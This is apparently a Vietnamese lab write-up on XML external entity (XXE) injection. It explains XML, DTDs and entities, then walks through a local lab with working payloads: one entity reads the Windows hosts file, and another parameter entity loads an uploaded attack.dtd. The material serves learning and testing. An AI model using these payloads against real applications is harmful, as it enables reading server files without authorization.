

Người thực hiện: Lê Trần Văn Chương.

Thời gian: 11/05/2020.

Mục lục:
- [XML external entity (XXE) injection](#xml-external-entity-xxe-injection)
- [Lab](#lab)

## XML external entity (XXE) injection 
- XML (Extensible Markup Language) được thiết kế với mục đích lưu trữ, truyền dữ liệu và cả người lẫn "máy" đều có thể đọc được.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>test</user>
    <pass>mypass</pass>
</creds>
```
Dòng đầu tiên là Khai báo XML (XML declaration), nó nên có chứ không bắt buộc phải có. Ở phần thân, cứ một cặp thẻ mở-đóng trong XML tạo thành một phần tử, và các phần tử này lồng nhau tạo nên cấu trúc dạng cây.

- XML external entity (XXE) injection là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống bên ngoài hoặc bên trong nào mà chính ứng dụng có thể truy cập.
- Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa nhiều tính năng nguy hiểm tiềm ẩn khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.
- `DTD (document type definitions)` - nghĩa là DTD dùng để "định nghĩa loại tài liệu" thông qua việc xác định cấu trúc cũng như chỉ ra format hợp lệ của các elements và attributes trong file xml. Nếu DTD được định nghĩa luôn bên trong file xml, nó được gọi là Internal DTD. Còn ví dụ dưới đây là ví dụ về một External DTD. Tức là bản thân DTD là một file, nằm ngoài file xml. 
- `DTD Entity` hiểu đơn giản DTD Entity giống như những biến trong lập trình.
- `External Entity` Để xử lý được file xml, mọi ứng dụng đều cần phải có một XML parser (còn được gọi là XML processor) để xử lý file xml và đưa ra output. Khi chúng ta khai báo một entity, parser sẽ tự động thay thế giá trị của entity vào nơi entity được khi báo.
## Lab
- Trang dưới đây nó sẽ in ra element `user` của xml.


- Tôi sẽ thử chèn thêm đoạn code sau `<!DOCTYPE foo [ <!ENTITY xxe "ASDASD"> ]>` vào xml và giá trị `user` tôi sẽ thay bằng `&xxe;` để hiện kết quả lên (hình dưới).
    - `DOCTYPE foo` - Xác định rằng phần tử gốc của tài liệu là `foo`.
    - `ENTITY xxe` - Nó sẽ giống như biến trong lập trình và biến này có tên là `xxe`.
    - Để gọi biến trong element thì ta sử dụng cú pháp `&tên-biến;` ở đây là `&xxe;`. Đây là `External Entity`


- Tiếp theo, tôi sẽ chèn thêm đoạn code sau `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">]>` - (nghĩa là trỏ đến tệp hosts của system bên ngoài và lấy dữ liệu của nó ra và đẩy lên element `user`). Kết quả (hình dưới).


- Tiếp theo, tôi sẽ sẽ tạo 1 file `attack.dtd` có nội dung như phía dưới và upload nó lên web:
```DTD
<?xml version="1.0" encoding="UTF-8"?>
    <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
```

- Tôi sẽ dùng Burp để có thể chèn đoạn xml sau vào để gọi file `attack.dtd` ra và chạy nó để in ra data của file hosts. Trong đây, có thể thấy tôi dùng `% remote` đây là 1 thực thể tham số xml rất đặc biệt và chúng ta có thể được tham chiếu chúng ở những nơi khác trong DTD. Còn `%remote;` ở phía dưới mục đích là thực hiện dòng lệnh `% remote` ở phía trên. Kết quả như hình phía dưới.
```xml
<!DOCTYPE foo [<!ENTITY % remote SYSTEM "http://localhost/XML/uploads/attack.dtd">
    %remote;
    ]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```



